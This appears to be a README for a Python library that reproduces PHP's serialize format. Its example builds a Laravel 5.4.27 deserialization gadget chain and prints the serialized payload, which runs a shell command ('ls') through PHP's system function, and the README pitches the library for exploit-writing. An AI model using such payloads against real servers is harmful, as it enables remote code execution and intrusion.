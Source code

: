 # libphpserialize

A port of PHP's serialize function, in pure python

## Features

- serialize objects directly from python objects
- nested objects
- namespacing
- variable Access Modifiers (public, private, protected)

## Example

```python
from phpserialize import serialize
from phpserialize.decorators import namespace
import requests


@namespace('Faker')
class Generator:
    protected_formatters = {'dispatch': 'system'}


@namespace('Illuminate\Broadcasting')
class PendingBroadcast:
    protected_event = 'ls'
    protected_events = Generator()


print(serialize(PendingBroadcast()))
```

with above code, you'll get:

```
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"*events";O:15:"Faker\Generator":1:{s:13:"*formatters";a:1:{s:8:"dispatch";s:6:"system";}}s:8:"*event";s:2:"ls";}
```

which triggers an RCE vulnerability in Laravel 5.4.27

nice when you're writing an exploit script for others to read

## Important:

- the code is written and tested under python 3.7+
- decimal serialization doesn't work the same as PHP does, yet

## TODO

- recursive objects support
- reimplement decimal precision calculating algorithm from php engine

